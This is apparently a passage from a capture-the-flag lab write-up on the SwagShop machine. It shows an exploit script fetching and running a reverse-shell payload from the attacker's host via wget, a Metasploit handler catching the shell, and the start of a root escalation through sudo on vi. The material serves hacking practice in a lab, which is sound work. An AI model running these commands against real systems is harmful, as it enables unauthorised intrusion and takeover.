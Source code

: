 ```:shell2
kali@kali:~$ python 37811.py 'http://10.10.10.140/index.php/admin' "wget http://10.10.14.8:8000/shell.elf"

kali@kali:~$ python 37811.py 'http://10.10.10.140/index.php/admin' "chmod +x ./shell.elf"

kali@kali:~$ python 37811.py 'http://10.10.10.140/index.php/admin' "./shell.elf"
```

```:shell3
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.8       yes       The listen address (an interface may be specified)
   LPORT  1212             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.8:1212 
[*] Sending stage (36 bytes) to 10.10.10.140
[*] Command shell session 1 opened (10.10.14.8:1212 -> 10.10.10.140:49426) at 2020-06-19 09:56:01 -0400

whoami
www-data
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@swagshop:/var/www/html$
```

## PE

```
www-data@swagshop:/var/www/html$ sudo -l                                  
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php

```
